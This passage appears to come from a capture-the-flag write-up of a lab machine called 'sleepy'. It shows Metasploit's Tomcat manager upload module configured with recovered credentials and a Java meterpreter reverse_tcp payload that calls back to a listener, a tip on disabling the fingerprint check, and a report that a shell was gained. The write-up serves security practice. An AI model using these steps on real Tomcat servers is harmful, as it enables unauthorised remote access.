 
<div class="note info">
  <h5>FingerprintCheck</h5>
  <p>The option: <code>set FingerprintCheck false</code> needs to be configured or meterpreter will throw the following error:</p>
  <p><code>[-] [2015.11.26-13:17:44] Exploit aborted due to failure: not-found: The target <br> server fingerprint "Apache/2.4.10 (Debian)" does not match "(?-mix:Apache.*(Coy<br>ote|Tomcat))", use 'set FingerprintCheck false' to disable this check.</code></p>
</div>

{% highlight bash %}
msf exploit(tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name       Current Setting         Required  Description
   ----       ---------------         --------  -----------
   PASSWORD   Gu3SSmYStR0NgPa$sw0rD!  no        The password for the specified username
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      0.0.0.0                 yes       The target address
   RPORT      80                      yes       The target port
   TARGETURI  /manager                yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   USERNAME   sl33py                  no        The username to authenticate as
   VHOST                              no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.30.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal
{% endhighlight %}

### Meterpreter Shell

An unprivileged meterpreter shell was obtained:

![meterpreter shell](/img/blog/sleepy/meterpreter.png)

